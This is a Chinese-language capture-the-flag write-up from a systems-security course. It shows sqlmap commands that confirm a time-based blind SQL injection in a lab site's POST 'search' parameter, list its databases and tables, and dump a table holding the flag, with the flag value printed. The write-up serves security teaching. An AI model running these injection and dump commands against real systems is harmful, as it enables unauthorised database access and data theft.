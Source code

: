 ```yaml
---
date: 2025-04-07T19:20:00+08:00
modified: 2025-09-20T18:41:22+08:00
tags:
  - PhD/Course/Systems_Security
title: 第(8)周-SQL注入与凭据访问-攻击-SQL 5
---
```


> [!QUESTION]
> 本题考察通过时间盲注 (Time-Based Blind SQL Injection) 技术绕过关键字过滤, 利用服务器响应时间的差异提取数据库敏感信息并获取 FLAG. 学生需掌握时间盲注原理, 编写自动化脚本逐步爆破数据库名、表名、列名, 最终提取 FLAG.

#### **解题步骤**

##### **1. 确认注入点**

使用 `sqlmap` 检测 `POST` 参数 `search` 是否存在时间盲注漏洞:

```sh
sqlmap --url="http://e6347821-25f1-4422-bdea-148a000b63fb.1.2024.thudart.com/index.php" --method="POST" --data="search=answer" --technique="T"
```

**结果:** 确认 `search` 参数存在时间盲注漏洞, 后端数据库为 **MySQL**..

##### **2. 爆破数据库名**

通过 `--dbs` 参数获取所有数据库名:

```sh
sqlmap [...] --dbs
```

**结果:** 发现两个数据库:

```
[*] information_schema
[*] user_data
```

##### **3. 爆破表名**

指定目标数据库 `user_data`, 使用 `--tables` 获取表名:

```sh
sqlmap [...] --tables -D "user_data"
```

**结果:** 发现两个表:

```
+-------+
| ff1lg |
| info  |
+-------+
```

##### **4. 提取目标表数据**

对可疑表 `ff1lg` 使用 `--dump` 导出数据:

```sh
sqlmap [...] --dump -D "user_data" -T "ff1lg"
```

**结果:** 成功提取 FLAG:

```
+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 0  | f3978751-f792-4498-8f27-08afc790371a |
+----+--------------------------------------+
```
